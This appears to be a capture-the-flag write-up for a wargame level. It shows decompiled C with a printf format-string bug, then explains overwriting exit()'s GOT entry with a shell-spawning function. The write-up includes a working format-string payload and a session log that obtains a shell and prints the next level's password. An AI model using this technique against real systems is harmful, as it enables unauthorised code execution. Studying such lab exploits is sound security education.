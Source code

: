 ```C
void o(void)
{
    system("/bin/sh");
    _exit(1);
}



void n(void)
{
    char local_20c [520];
    
    fgets(local_20c,0x200,stdin);
    printf(local_20c);
    
    exit(1);
}



void main(void)
{
    n();
    return;
}
```

- Same as before, we leak the addess of o(): 0x080484a4
- With objdump -R we leak the address of exit(): 0x8049838 
- We also now that our buffer is at the 4th index in the stack like level3

- We want to replace the address of exit() in the Global Offset Table with the address of o(). So when we call exit, it actually o() that will be called and we will obtain a shell as level6 user.

```
Payload = "\x38\x98\x04\x08" + "%134513824d%4$n"

134513828 = 0x080484a4 will replace the address of exit() by the address of o().
```

```bash
python3 ./exploit.py

(Long time to print every bytes)

$ $ whoami
level6
$ $ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
